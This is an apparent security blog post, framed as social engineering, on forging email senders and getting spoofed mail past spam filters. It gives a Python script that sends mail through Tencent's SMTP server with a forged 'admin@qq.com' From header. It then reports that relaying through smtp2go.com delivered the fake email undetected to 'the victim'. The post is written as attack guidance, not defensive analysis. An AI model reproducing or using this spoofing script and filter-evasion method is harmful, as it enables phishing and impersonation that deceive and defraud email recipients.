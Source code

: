 ```yaml
---
title: Ideas to Prevent Email From Being Marked As Spam
date: 2019-12-04 20:27:17
categories: Social Engineering
tags: [Fake email]
keywords: [Fake email, Spam, Bypass, Email]
description: Here I described some methods used to bypass the spam filters. This kind of thing is much more difficult than before and I cannot guarantee these methods will work for every mailbox.
---
```


Due to some imperfections of the SMTP protocol, the email can be forged by malicious attackers. For example, the email sender and the email title can be modified to whatever they want. But some high-security mailboxes are able to identify the malicious email and tag it as junk email or spam. 

I found some useful ideas to perform a fake-email attack and bypass the spam filter in this blog: https://payloads.online/archivers/2019-05-09/1. 

I wrote a simple script to use the Tencent SMTP server to send the fake email automatically.

```python
# -*- coding: UTF-8 -*-

from email.mime.text import MIMEText
from email.header import Header
from smtplib import SMTP_SSL


host_server = 'smtp.qq.com'
sender_qq = '1234567'
pwd = 'xxx'
sender_qq_mail = '1234567@qq.com'
receiver = '1234567@qq.com'
mail_content = 'This is a test mail.'
mail_title = 'Test'

smtp = SMTP_SSL(host_server)
smtp.ehlo(host_server)
smtp.login(sender_qq, pwd)

msg = MIMEText(mail_content, "plain", 'utf-8')
msg["Subject"] = Header(mail_title, 'utf-8')
msg["From"] = Header("admin@qq.com", 'utf-8')
msg["To"] = receiver
smtp.sendmail(sender_qq_mail, receiver, msg.as_string())
smtp.quit()
```

But the email was rejected by the Tencent SMTP server directly. 

<img src="pic_10.png" width="60%" height="60%">

So I changed the SMTP server to smtp2go.com. The fake email was received successfully without being detected as spam, but the victim can notice the forwarding server in the email title.
